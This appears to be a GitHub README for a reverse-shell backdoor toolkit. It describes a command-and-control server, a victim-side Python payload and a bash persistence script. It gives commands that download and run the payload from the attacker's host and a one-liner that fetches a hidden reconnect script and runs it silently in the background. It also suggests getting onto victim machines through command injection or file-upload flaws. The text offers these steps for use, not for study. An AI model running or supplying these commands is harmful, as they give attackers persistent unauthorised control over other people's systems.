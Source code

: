 # Files in question

__server_shell.py__ [CNC - Command and Control script]
- => Runs on the server system.
- This file is to be ran on the CNC server system and listens for incoming connections made by an exploited machine via the client_payload script.
- Once a connected is established - this acts as a reverse shell and executes commands on the client system.

__client_payload.py__ [Reverse shell Backdoor]
- => Runs on the client syste,.
- This file initiates a connection from the host system to the CNC server machine (hacker machine).
- This is intended to be downloaded/executed on a victim machine.
- This file assumes python3 is installed.

__client_connect.sh__ [Client Helper script - BASH]
- => Runs on the client system.
- This file is a helper to the client_payload script.
- The goal here is to make sure if a connection is dropped - a new one will be re-initiated - allowing the CNC server to have realiable access to client machine.
- Write this as bash script so most of the commands here are directly communicating at the command line level.

___startup.sh__ [Helper script - BASH]
- => To run on server system
- Prints on screen-instructions asking for the ip/port details of the CMC server (hacker machine) and where the client_payload is to be hosted. 
- This scrpt also edits the client_payload.py, server_shell.py, and client_connect.sh to reflected the command line input.
- Finally, this script tells you exactly which commands to run on CNC server and client machine to initiate a reverse shell (backdoor) attack. 

# Usage

Note: With all methods - there needs to be a way to run a command on the client machine to kick-off the connection to the CNC server (hacker's machine).
There is more than one way to do this - but would be good to find a straight-forward vulnerability such a a command line injection if possible.

## Method 1: Startup Script [PREFERRED]

### On Hacking machine (CNC Server)
Run startup script
`bash startup.sh`

Then follow on screen instructions.


## Method 2: Manual
(works with cmd line injection)

- [SERVER] Host client_payload.py somehere
- - One option is to start a python web server on the cnc_server
- - `python3 -m http.server 8080`   
- [CLIENT] Download + Execute from client machine
- - `wget -O - <cnc_server_ip>:8080/client_payload.py | python3`
- [OPTIONAL] Once you have a connection to client from cnc server...
- - Download + Execute the client_connect.sh script (keeps reconnects the client if it disconnects)
- - CNC server could host the client_connect.sh script.
- - - This file must first be edited to match the host/port details you already have in use.
- - - `wget -q <cnc_server_ip>:8080/client_connect.sh &> /dev/null ;` 
- - - `bash client_connect.sh &> /dev/null & `
- - One-Liner
- - - `{ wget -q -O .i.sh <cnc_server_ip>:8080/client_connect.sh ; } && { nohup bash .i.sh &> /dev/null & }`
- - Make sure you exit from CNC server with 'exit' to disconnect properly.



## Method 3: Direct Client Access

- [SERVER] `python3 server_shell.py` <- edit the file to use the port you want or pass it in as an argument (default 8000). 
- [CLIENT] `python3 client_payload.py`<- edit the file to use the CNC server IP and port you want. 
- - Or pass them in as an argumenta (default port 8000)
- - `python3 client_payload.py <cnc_server_ip> <cnc_server_port>`


# Other ways to get client_payload.py on victim machine
You could also exploit a file upload vulnerability of aa web application and upload the client_payload file onto the victim's machine.
Just make sure you listen on sever and manage a way to run the client_payload.py script on the client machine.


### Port as an optional argument
Both client_payload and server_shell scripts communicate on port 8000 by default.
This can be changed to another port - but you would need to make sure both scripts have the same port..


